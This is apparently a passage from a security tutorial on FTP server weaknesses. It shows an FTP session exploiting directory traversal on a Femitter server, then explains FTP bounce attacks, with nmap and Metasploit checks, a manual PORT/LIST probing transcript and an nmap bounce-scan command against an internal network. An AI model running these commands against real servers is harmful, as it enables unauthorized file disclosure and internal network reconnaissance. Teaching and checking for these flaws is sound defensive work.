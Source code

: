-   **Information Disclosure**: Allows the attacker to gain information about the folder structure or read the contents of sensitive files on the system.
-   **Writing arbitrary files**: Allows the attacker to create or replace existing files. This type of vulnerability is also known as Zip-Slip.

| 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26  | \# ftp 192.168.13.22 Connected to 192.168.13.22. 220 Femitter FTP Server ready. Name (192.168.13.22:root):  331 Password required for root. Password: 230 User root logged in. Remote system type is UNIX. Using binary mode to transfer files. ftp\> ls ../../../../ 200 Port command successful. 150 Opening data connection for directory list. -rwxrwxrwx 1 ftp ftp 0 Sep 23 2015 AUTOEXEC.BAT -rw-rw-rw- 1 ftp ftp 0 Sep 23 2015 CONFIG.SYS drw-rw-rw- 1 ftp ftp 0 Sep 23 2015 Documents and Settings dr--r--r-- 1 ftp ftp 0 Sep 23 2015 Program Files drw-rw-rw- 1 ftp ftp 0 Sep 23 2015 WINDOWS 226 File sent ok ftp\> ls ../../../../Docume\~1/ 200 Port command successful. 150 Opening data connection for directory list. drw-rw-rw- 1 ftp ftp 0 Sep 23 2015 . drw-rw-rw- 1 ftp ftp 0 Sep 23 2015 .. drw-rw-rw- 1 ftp ftp 0 Sep 26 2015 Administrateur drw-rw-rw- 1 ftp ftp 0 Sep 23 2015 All Users 226 File sent ok  |
|-----------------------------------------------------------------------|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

FTP Bounce Vulnerability

The FTP server is vulnerable to FTP bounce attacks. This vulnerability allows an FTP client to instruct the FTP server to make an outbound data connection to any IP and port, rather than restricting outbound connections back to the client’s IP address only. This can be used to map and port scan any networks visible to the FTP server, possibly including internal networks not directly accessible to the attacker.

![Untitled](media/1c572390a9fea15a9d9daf63c2ec85c9.png)

FTP bouncing is such a popular and easy to exploit reconnaissance attack that tools such as nmap include an FTP bounce scan option.

FTP Bounce Vulnerability Check Method

| 1 2  | nmap -sV --script ftp-bounce -p21 10.10.x.x msf \> use auxiliary/scanner/portscan/ftpbounce  |
|------|----------------------------------------------------------------------------------------------|

Lastly, you can check manually. If your FTP server is impacted from this vulnerability, you will have a result similar to the following:

| 1 2 3 4 5 6 7 8 9 10 11 12 13  | USER A 331 Username okay, awaiting password PASS A 230 User logged in, proceed PORT 172,19,0,100,0,1234 200 The requested action has been successfully completed  LIST 150 File status okay; about to open data connection // We understood port 1234 is open 226 Closing data connection  PORT 172,19,0,100,0,4444 200 The requested action has been successfully completed  LIST 425 No connection established // We understood port 4444 is closed  |
|--------------------------------|--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

For example, an attacker using this vulnerability can scan ports in the internal network systems by using the following command:

| 1  | nmap -v -p 21,22,445,80,443 -b username:password@172.19.0.100 192.168.0.1/24  |
|----|-------------------------------------------------------------------------------|

![Unsuccess FTP Bounce scan example output.](media/9f6b9ba66fc91cc5dd974c00c6745de3.png)Unsuccess FTP Bounce scan example output.
